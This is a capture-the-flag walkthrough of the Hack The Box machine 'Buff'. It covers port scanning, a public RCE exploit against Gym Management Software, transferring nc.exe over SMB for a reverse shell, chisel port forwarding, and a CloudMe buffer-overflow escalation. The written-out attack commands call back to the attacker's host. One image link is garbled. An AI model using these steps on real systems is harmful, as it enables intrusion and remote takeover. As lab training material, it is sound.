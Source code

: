 ## Buff

Difficulty: Easy  
https://app.hackthebox.com/machines/Buff

### User Flag

```
rustscan -a 10.10.10.198 --ulimit -- -A -sV -sC -oN nmap.txt -Pn
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/5506a998-60cc-45eb-be44-cf49dea692e8)

<br>

Port 8080 is open and in contact section we enumerate the CMS: Made using Gym Management Software 1.0

![site](https://github.com/b1d0ws/OSCP/assets/58514930/badaaa0f-ea25-4ae0-a8c4-e519abd76cf4)

![cmsVersion](https://github.com/b1d0ws/OSCP/assets/58514930/b21ee933-5eda-45c7-a32f-d3360b7edca7)

<br>

Searching exploits, we find this [one](https://www.exploit-db.com/exploits/48506).

```
python2 exploit.py http://10.10.10.198:8080/
```

![initialAccess](https://github.com/b1d0ws/OSCP/assets/58514930/23f83171-c9c1-4781-b615-8c3d9d489e76)

<br>

Here you can already get the user flag, but our shell is limited, so let's upgrade it.

### Upgrading Shell and Transferring Files with SMB

First we share the directory with smb.

```
smbserver.py share . -smb2support -username df -password df
```

![smbServer](https://github.com/b1d0ws/OSCP/assets/58514930/031c3cd2-95e1-4c6f-b582-4e6972f4944d)

<br>

Then we get the nc binary in the victim connecting to the smb of the attacker.

```bash
net use \\10.10.14.3\s /u:df df
copy \\10.10.14.3\share\nc.exe \programdata\nc.exe
```

![transferringNC](https://github.com/b1d0ws/OSCP/assets/58514930/25057ea7-cf46-4a87-b7dc-a5d7bfca749f)

After that, send the reverse shell with nc.

![ncReverse](https://github.com/b1d0ws/OSCP/assets/58514930/305dd616-147d-4347-8fb5-d4781bbe3b6c)

![gettingReverseShell](https://github.com/b1d0ws/OSCP/assets/58514930/f1dc80f4-0a78-4e9d-87db-25945669c581)

### Root Flag

Enumerating the machine, we find this binary of CloudMe application. It seems that is running on port 8888.

![cloudMeApplication](https://github.com/b1d0ws/OSCP/assets/58514930/edc11e8f-5f70-492!)

[netstat](https://github.com/b1d0ws/OSCP/assets/58514930/67ab041b-bd7a-4651-a390-8f9687a638c6)
3-a22e-aead5fd75ac2)

<br>

Searching for this application, we see that exists a RCE vulnerability, but to exploit we need to port forward the internal port to our host.

![searchsploitCloudMe](https://github.com/b1d0ws/OSCP/assets/58514930/d1f4c645-f62d-41ec-82a1-ab94b7b4bcf8)

<br>

Chisel Port Forward (you need to upload chisel binary as we did with nc):

```
chisel server -p 8000 --reverse
\programdata\chisel.exe client 10.10.14.3:8000 R:8888:127.0.0.1:8888
```

![chiselServer](https://github.com/b1d0ws/OSCP/assets/58514930/45ac9231-5aa2-45fc-9556-50a21c6a8f1f)

![chiselClient](https://github.com/b1d0ws/OSCP/assets/58514930/910b26ce-f3c5-427a-a85a-8818522c9735)

<br>

Generate the shellcode and put it inside the exploit and execute it a few times until it works.

![shellcode](https://github.com/b1d0ws/OSCP/assets/58514930/661aa01d-4610-4484-89de-291ff3957a01)

![rootExploit](https://github.com/b1d0ws/OSCP/assets/58514930/0b79ff01-5f79-4cff-baf5-cd775df6a7e2)





